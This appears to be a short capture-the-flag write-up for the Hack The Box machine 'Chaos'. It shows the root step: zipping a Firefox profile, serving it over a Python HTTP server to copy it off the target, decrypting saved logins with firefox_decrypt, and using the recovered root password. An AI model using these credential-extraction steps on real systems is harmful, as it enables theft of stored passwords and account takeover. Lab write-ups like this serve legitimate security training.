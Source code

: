 Root

I used zip to compress the mozilla profile and used a github decryptor to get the login creds. transfering bzo7sjt1.default to my system was tricky and compressing it.by default i went to tar but i was getting some kind of error where tar was truncating itsself. there are ways to force / bypass. Zip came to the rescue.

https://github.com/unode/firefox_decrypt

```
/usr/bin/zip user.zip bzo7sjt1.default/* 
/usr/bin/python -m SimpleHTTPServer 9017
```

```
python firefox_decrypt/firefox_decrypt.py bzo7sjt1.default/
2019-02-11 22:28:36,944 - WARNING - profile.ini not found in bzo7sjt1.default/ 
2019-02-11 22:28:36,944 - WARNING - Continuing and assuming 'bzo7sjt1.default/'
is a profile location

Master Password for profile bzo7sjt1.default/:

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'

```

So log back in and su root and enter the password.